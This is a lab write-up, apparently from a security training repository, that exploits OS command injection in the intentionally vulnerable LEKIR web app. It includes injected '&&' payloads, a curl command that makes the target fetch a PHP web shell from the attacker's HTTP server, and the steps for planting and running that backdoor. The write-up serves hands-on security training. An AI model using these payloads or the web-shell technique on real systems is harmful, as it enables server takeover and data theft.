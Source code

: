 # Backdoor.php

In this writeup, we will be demonstrating the use of implementing a backdoor inside the LEKIR vulnerable web app

After running the LEKIR Docker container and accessing it through the browser, navigate to the OS command injection category at Low level

![Figure1](./imgs/img1.png)

![Figure2](./imgs/img2.png)

## 1st Step: Identfying Vulnerabilities

Input any valid IP. Let's try Google's

![Figure3](./imgs/img3.png)

Seems to work like a normal ping service should

![Figure4](./imgs/img4.png)

Now we get to the fun part, Payloads. Just try out any one in the list

![Figure5](./imgs/img5.png)

As you can see, we succeded in listing the contents in the current directory using the && operator

![Figure6](./imgs/img6.png)

## 2nd Step: Exploiting Vulnerabilities

Since this web app uses PHP as its backend, we can just exploit it by using a PHP backdoor script. By default the backdoor script is already in our Kali Linux machine, we just need to get it on the vulnerable web app. You can find the script by using the `locate` command in the terminal

![Figure7](./imgs/img7.png)

navigate to the appropriate directory of the script by using `cd /usr/share/webshells/php`

Now what we need to do is host a simple webserver to serve the script which is inside the current directory

We can launch a simple HTTP server using python by entering this command:

`
python -m http.server 8008
`

To see if the server was launched successfully. Go to the browser and enter 'localhost:8008'. It should show up like this:

![Figure8](./imgs/img8.png)

Now that's done, there are 2 ways we can download / retrieve the backdoor script on the vulnerable web app now that it is on a webserver.

- wget

check if wget is installed in the vulnerable system by entering `wget -h`

![Figure9](./imgs/img9.png)

Looks like wget is not installed, let's move on to the next method

- curl

like before, let's check if it is installed

![Figure10](./imgs/img10.png)

Now we can begin downloading the backdoor script. Before that, go to the terminal where the python webserver is hosted. Copy the url which is the server's address and port. In my case it will look like this.

`
http://0.0.0.0:8080/
`

Another thing we need to add at the end of the url is the file we want to download. specify the name of the backdoor

`
http://0.0.0.0:8080/php-backdoor.php
`

Another thing we also need to change is the ip of the url, depending on how you deploy the LEKIR Framework, you need to identify the suitable interfaces to use. '0.0.0.0' means that the webserver is listening on all network interfaces. In my case, i will need to use the Docker interface since I deployed it using Docker

You can check the available interfaces using:

`
ip a
`

![Figure11](./imgs/img11.png)


The current payload will look like this

![Figure12](./imgs/img12.png)

Try running the command

![Figure13](./imgs/img13.png)

If the output looked like this, it means that it did not work. Why?

Because as I have said earlier, PHP is a backend language. When we use curl or wget for that matter to request the file, the webserver will execute the PHP script and return the output such as HTML or JSON rather than the raw PHP source code itself.

What we can do to fix this issue is changing the file type of the script. Let's change it to a .txt file using this command:

`
mv php-backdoor.php php-backdoor.txt
`

Oh and also, do it in another tab of the terminal and don't `Ctrl + C`  the python webserver hahah xD

![Figure14](./imgs/img14.png)

Change the payload 

`
8.8.8.8 && curl -O http://172.17.0.1:8080/php-backdoor.txt
`

The `-O` flag is used to specify the output name of the file when it is downloaded, here I am saving it with its original name

![Figure15](./imgs/img15.png)

Let's try and see if it worked

![Figure16](./imgs/img16.png)

It didn't execute the file. Let's verify this by using `ls`

![Figure17](./imgs/img17.png)

Great!! it worked, our backdoor is downloaded. On to the next step.

## 3rd Step: Gaining Access

Now that the backdoor script is inside the vulnerable system, we can execute it. But wait...remember that we changed it from a .php file to a .txt file? .txt files are for reading only

We can simply resolve this issue by just changing it back to a .php file in the input field using the `mv` ('Everyone probably knew this ^_^')

`
8.8.8.8 && mv php-backdoor.txt php-backdoor.php
`

verify it once again

![Figure18](./imgs/img18.png)

everything is set, now we can finally execute the backdoor. Navigate to the URL and enter the filename of the backdoor in the current directory

![Figure19](./imgs/img19.png)

Run it

![Figure20](./imgs/img20.png)

What you are seeing is the web-based control panel of the backdoor, allowing you to interact with the server in various ways including command execution, file upload, directory browsing and database query execution




















